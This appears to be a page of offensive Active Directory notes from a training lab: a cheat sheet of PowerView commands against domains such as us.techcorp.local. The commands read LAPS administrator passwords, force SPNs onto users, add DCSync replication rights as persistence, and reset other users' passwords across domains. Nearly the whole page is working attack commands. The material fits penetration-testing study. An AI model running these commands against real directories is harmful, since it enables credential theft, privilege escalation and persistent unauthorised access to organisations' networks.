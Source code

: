 - Check for ACEs on a domain group (what other security principals have permissions to do on that domain group)
`Get-DomainObjectAcl -Identity machineadmins -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match 'managers'}`
- Force an SPN to another Domain User
`Set-DomainObject -Identity supportXuser -Set @{serviceprincipalname='us/myspnX'} -Verbose`
- Identify OUs where LAPS is in use and user(s) who have permission to read passwords.
`Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}`
- Read LAPS password
`Get-DomainObject -Identity us-mailmgmt | select -ExpandProperty ms-mcs-admpwd`
- Check if a Domain User has Replication permissions
`Get-DomainObjectAcl -SearchBase "dc=us,dc=techcorp,dc=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentuserx"}`
- Add Replication permissions to a Domain User as a persistence method
`Add-DomainObjectAcl -TargetIdentity "dc=us,dc=techcorp,dc=local" -PrincipalIdentity studentuserx -Rights DCSync -PrincipalDomain us.techcorp.local -TargetDomain us.techcorp.local -Verbose`
- Reset password of a Domain User
`Set-DomainUserPassword -Identity dbxsvc -AccountPassword (ConvertTo-SecureString 'Password@123' -AsPlainText -Force) –Verbose`
- Reset password of a Domain User in another Domain
`Set-DomainUserPassword -Identity dbxsvc -AccountPassword (ConvertTo-SecureString 'Password@123' -AsPlainText -Force) -Domain dbvendor.local –Verbose`
- Find Foreign Group Members in our current domain (members of Domain Groups in our current domain that are not Domain Accounts in our current domain)
`Find-ForeignGroup –Verbose`
- Resolve Object SID of an FSP in another Domain
`Get-DomainUser | ?{$_.ObjectSid -eq 'S-1-5-21-569087967-1859921580-1949641513-4101'}